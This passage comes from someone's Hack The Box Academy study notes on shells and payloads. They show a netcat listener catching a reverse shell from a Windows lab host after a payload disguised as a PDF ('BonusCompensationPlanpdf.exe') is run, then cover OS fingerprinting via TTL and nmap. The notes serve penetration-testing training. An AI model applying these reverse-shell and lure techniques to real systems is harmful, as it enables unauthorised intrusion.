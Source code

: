 If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.

```shell
NolanCarougeHTB@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```

## Infiltrating Windows : 

Over the last few years, several vulnerabilities in the Windows operating system and their corresponding attacks are some of the most exploited vulnerabilities of our time. Let's discuss those for a minute :

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%201/Medium/Shells%20%2526%20Payloads/Images/windows_attack.png)

This module assumes you have already performed your host enumeration phase and understand what services are commonly seen on hosts. 

Since we have a set of targets, `what are a few ways to determine if the host is likely a Windows Machine`? To answer this question, we can look at a few things. 

The first one being the `Time To Live` (TTL) counter when utilizing ICMP to determine if the host is up. A typical response from a Windows host will either be 32 or 128.

Another way we can validate if the host is Windows or not is to use our handy tool, `NMAP`. Nmap has a cool capability built in to help with OS identification and many other scripted scans to check for anything from a specific vulnerability to information gathered from SNMP. For this example, we will utilize the `-O` option with verbose output `-v` to initialize an OS Identification scan. If you run into issues and the scans turn up little results, attempt again with the `-A` and `-Pn` options.

Now that we know we are dealing with a Windows 10 host, we need to enumerate the services we can see to determine if we have a potential avenue of exploitation. Netcat, Nmap, and many others can perform the enumeration we need, but for this instance, we will look at a simple Nmap script called `banner.nse`.

```shell
NolanCarougeHTB@htb[/htb]$ sudo nmap -v 192.168.86.39 --script banner.nse
```
